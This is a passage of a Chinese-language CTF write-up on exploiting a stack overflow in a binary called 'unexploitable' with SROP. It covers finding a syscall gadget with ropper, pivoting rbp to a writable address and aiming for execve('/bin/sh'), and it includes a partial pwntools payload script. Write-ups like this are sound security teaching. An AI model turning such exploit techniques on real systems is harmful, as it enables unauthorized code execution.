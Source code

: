 栈溢出，got表中没有system，也没有write，puts之类的输出函数，没办法泄露libc，使用ROPgadget也搜不到syscall。不过通过[ropper](https://github.com/sashs/Ropper)可以搜索到一个syscall（ROPgadget无法把单独的syscall识别成一个gadget）

![Alt](img/SROP8.png)

不过找不到给rsi，rdi等寄存器赋值的gadget。这就意味着我们也没办法直接通过ROP实现getshell。我们注意到read读取的长度是0x50f，而栈溢出只需要16字节就能够到rip。可以溢出的长度远大于SigreturnFrame的长度，所以我们可以尝试使用SROP getshell
选择直接调用sys_execve执行execve(‘/bin/sh’, 0, 0)，由于syscall实际上是拆分了mov edx, 50Fh这条指令，执行完syscall之后是两个\x00无法被解释成合法的指令，所以我们没办法用SROP调用read。所以考虑用程序中原有的read读取”/bin/sh\x00”。
由于找不到给rsi传值的gadget，所以考虑通过修改rbp来修改rax, 进而修改rsi。我们先劫持一下rbp到0x60116c

![Alt](img/SROP9.png)

0x60116c实际上为一个可写的地址，用作之后的读写操作。

```python
    syscall_addr = 0x400560
    set_read = 0x40055B
    read_addr = 0x400571
    fake_stack_addr = 0x60116c
    fake_rbp_addr = 0x60116c
    binsh = 0x60115c    # buf的偏移为0x10，而在栈上的位置为[rbp+buf]=rbp-0x10

    p = process('./unexploitable')

    payload = 'A'*16
    payload += p64(fake_stack_addr)  # 劫持rbp
    payload += p64(set_read)    # 劫持rip,再一次执行read函数(包括前面为传参做的准备)
    '''
     劫持rbp到 0x60116c，此时buf在栈上的地址就变成了0x60115c，这里会执行两次leave，第一次是read函数执行完紧接着的leave指令,接着RIP被劫持为set_read，所以还会执行一次read函数，之后再执行一次call _read后的leave指令，即构造stack pivot
    '''
    p.send(payload)
    sleep(3)
```
